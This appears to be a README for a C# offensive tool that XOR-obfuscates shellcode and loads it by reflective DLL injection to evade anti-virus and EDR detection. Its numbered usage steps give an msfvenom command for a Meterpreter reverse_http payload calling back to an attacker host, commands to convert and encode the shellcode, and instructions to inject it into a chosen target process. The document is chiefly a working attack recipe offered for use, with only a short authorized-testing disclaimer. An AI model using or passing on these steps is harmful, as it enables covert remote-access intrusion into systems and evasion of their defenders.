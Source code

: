 # XORed Reflective DLL Injection

This tool written in C# with the purpose to perform Reflective DLL Injection with obfuscated (XOR) shellcode and bypass some Anti-Virus signatures and EDRs.

The tool consists the following projects:

* Xoring - Takes a key and then xoring the shellcode.
* XORedReflectiveDLL - Process Injection Loader for the obfuscated shellcode.

### Usage

	1) Generate DLL using msfvenom. (Feel free to use any tool you want to generate DLL. e.g: cobalt strike or write your custom DLL)
		msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > reverse_http.dll
	2) Use [sRDI](https://github.com/monoxgas/sRDI) to convert DLL to position independent shellcode.
		python3.6 ConvertToShellcode.py reverse_http.dll
	3) Execute the below command to convert .bin file to a compatible C# byte array format:
		hexdump -v -e '1/1 "0x%02x,"' reverse_http.bin | sed 's/.$//' > reverse_http_bytearray.txt
	4) Copy the byte array shellcode from the reverse_http_bytearray.txt and paste it in the Xoring.cs file at line 29. Make sure to paste it inside the curly brackets.
	5) Change the XOR key at line 26.
	6) Build solution and run the Xoring.exe to obfuscate the shellcode.
	7) Open the file created (It should be similar to: xored_shellcode_*current date*.txt), copy the byte array and paste it in the Reflective.cs file at line 150.
	8) Change the XOR key. (Make sure that the key is the same with the one that you used in Xoring.cs file before.)
	9) Change target process. e.g: notepad, iexplore, etc..etc..
	10) Build the program and run XORedReflectiveDLL.exe

### Credits

Credits goes to [monoxgas](https://github.com/monoxgas/sRDI) for the sDRI tool that convert DLLs to position independent shellcode.\
[Stephen Fewer](https://github.com/stephenfewer/ReflectiveDLLInjection) for the Reflective DLL injection technique.

## Disclaimer:

This project can only be used for authorized testing or educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
